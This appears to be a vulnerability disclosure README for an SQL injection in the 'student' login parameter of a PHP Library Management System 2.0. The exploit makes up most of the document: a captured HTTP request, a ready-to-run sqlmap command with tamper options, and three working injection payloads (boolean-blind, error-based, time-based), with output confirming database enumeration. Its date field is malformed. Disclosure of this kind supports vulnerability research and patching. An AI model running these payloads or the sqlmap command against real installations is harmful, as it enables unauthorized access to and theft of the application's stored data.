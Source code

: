 # Library-Management-System_SQL_Injection-2
+ **Exploit Title:** Library-Management-System_SQL_Injection-2
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/library-management-system-in-php-with-source-code-ver-2-0/
+ **Software Link:** https://download-media.code-projects.org/2020/02/LIBRARY_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE_VER.2.0.zip
+ **Version:** 2.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-

## References: 

## Description:
Library Management System 2.0 allows SQL Injection via parameter 'student' in "/libsystem/login.php".
Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the student login panel: "http://localhost/libsystem/login.php"
+ Fill the student id then click 'Login' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
POST /libsystem/login.php HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 302
Content-Type: application/x-www-form-urlencoded
Origin: http://localhost
Referer: http://localhost/libsystem/
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

student=test&login=
```

+ Use sqlmap to exploit. In sqlmap, use 'student' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p student --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: student (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: student=test' OR NOT 8837=8837-- xdiM&login=

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: student=test' AND (SELECT 9935 FROM(SELECT COUNT(*),CONCAT(0x7162627671,(SELECT (ELT(9935=9935,1))),0x716a7a7171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- pYgV&login=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: student=test' AND (SELECT 5778 FROM (SELECT(SLEEP(5)))XMIO)-- jzYc&login=
---
[12:29:48] [INFO] the back-end DBMS is MySQL
web application technology: PHP, PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[12:29:49] [INFO] fetching current database
[12:29:49] [INFO] retrieved: 'libsystem'
current database: 'libsystem'
```

+ current database: libsystem
![2](https://github.com/h4md153v63n/CVEs/assets/5091265/f6d52d8d-69a3-4915-a235-3126417374ec)


